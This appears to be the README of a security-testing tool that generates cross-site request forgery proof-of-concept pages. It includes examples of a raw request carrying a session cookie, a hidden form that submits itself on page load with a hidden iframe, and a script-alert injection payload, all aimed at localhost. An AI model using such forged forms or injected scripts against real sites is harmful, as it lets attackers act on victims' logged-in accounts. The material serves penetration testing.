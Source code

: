 # CSRFPoCGenerator
Generate CSRF PoC

---

## Parameters

- send : send type(Form or XHR)
- use fromCharCode : use fromCharCode (XHR only)
- automatic submitting : submit when opening HTML file
    - specifiable : specify value HTML page(beta)
- HTTP Request : set raw HTTP Request
- URL : Set URL
- method : Set method
- header :Set HTTP header (XHR only)
- enctype : Select enctype
    - boundary : Set boundary for multipart/form-data
- body : Set HTTP body
- title : Downloadable HTML title

## How to use

Click "analyze" to analyze HTTP request & paste

Click "generate and submit" to generate form & submit request.

Click "generate only" to just generate form.

Click "download HTML" to download CSRF PoC HTML.

## Example

### using HTTP Request

Enter the following value.

```
POST http://localhost/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Connection: keep-alive
Cookie: ucp_tabs=2; wp-settings-1=libraryContent%3Dbrowse%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-1=1535524023; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1536409565%7C8RhEzw0sDtJ91FxFP0dHvh6hSxLcltB3ErbGiZ5Ae5J%7C778801fe295ae26bfa37ac95429e6c969ee7bb8d9b614df39c464f484f4918f3; pps_show_100=1
Upgrade-Insecure-Requests: 1

title=CSRF&name=hello+world&comment=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

Then click "analyze" and separate into 5 parameters(URL, method, header, enctype, body).

Then click "download HTML" and download a HTML file.


### using URL method etc...
Enter the following values.

- URL
```
http://localhost/post.php
```

- method
```
POST
```

- enctype
```
application/x-www-form-urlencoded (default)
```

- body
```
title=CSRF&name=hello+world&comment=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

Then click "generate only" (or "generate and submit" ) and Output a HTML form (and submit request ).
```
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;
" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
```

- title
```
Hello CSRF PoC
```

Then click "download HTML" and download a HTML file.

```
<!DOCTYPE html>

<html>
<head>
<meta charset="utf-8">
<title>Hello CSRF PoC</title>
</head>
<body onload="document.evilform.submit();">
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
<p>Hello CSRF PoC</p>
</body>
</html>
```

---

# Other

## URL encoding

- URLencode : Set string
```
<script>alert(1);</script>
```

Then click "URL encode" and encode input string.
```
%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

---

# Change log

v1.5

- added request header feature (XHR)
- added fromCharCode(XHR)

v1.4

- added raw Request
- added detect boundary
- added an option to specifiable value

v1.3

- added XHR multipart/form-data transmission
- added an option to send automatically
- arbitrary enctype

v1.2

- added XHR mode

v1.1

- added enctype setting
- added download function
- fixed typo


